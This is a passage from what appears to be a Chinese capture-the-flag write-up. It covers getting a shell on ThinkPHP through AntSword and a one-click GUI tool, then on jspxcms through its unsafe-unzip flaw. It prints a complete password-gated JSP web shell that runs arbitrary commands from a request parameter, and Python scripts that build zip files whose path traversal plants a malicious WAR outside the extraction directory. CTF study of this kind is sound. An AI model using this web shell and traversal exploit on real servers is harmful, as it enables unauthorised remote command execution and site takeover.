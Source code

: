 传入后 用蚁剑连接就能拿flag了~

![image-20210801012307515](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801012307515.png)

或者也可以直接使用[ThinkphpGUI](https://github.com/Lotus6/ThinkphpGUI/releases/tag/1.2)一把梭！一键getshell 你值得拥有

![image-20210803170035307](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210803170035307.png)

## jspxcms

也有现成的洞可以直接用，参考：[复现jspxcms解压getshell漏洞](https://lockcy.github.io/2019/10/18/%E5%A4%8D%E7%8E%B0jspxcms%E8%A7%A3%E5%8E%8Bgetshell%E6%BC%8F%E6%B4%9E/)  |  [代码审计| Jspxcms文件上传漏洞(CNVD-2019-40540)](https://www.shengchulai.com/blog-NJwAv8oZV1.htm)  |  [记一次由追踪溯源发现的“不安全解压getshell”](https://www.anquanke.com/post/id/188788)

首先构造含jsp🐎的恶意war包，🐎长这样

```jsp
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("wuhu")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

之后放入一个解压后会自动完成目录穿越的zip包中 这个过程由py脚本完成

```python
import zipfile

if __name__ == "__main__":
    try:
        binary = b'<script>alert("helloworld")</script>'
        zipFile = zipfile.ZipFile("test123.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("test123.zip")
        zipFile.writestr("../../../../dog123.html", binary)
        zipFile.close()
    except IOError as e:
        raise e
```

```python
import zipfile
z = zipfile.ZipFile('test123.zip', 'a', zipfile.ZIP_DEFLATED)
with open('wuhu.war', 'rb')as f:
    temp = f.read()
z.writestr('../../../../wuhu.war', temp)
z.close()
```

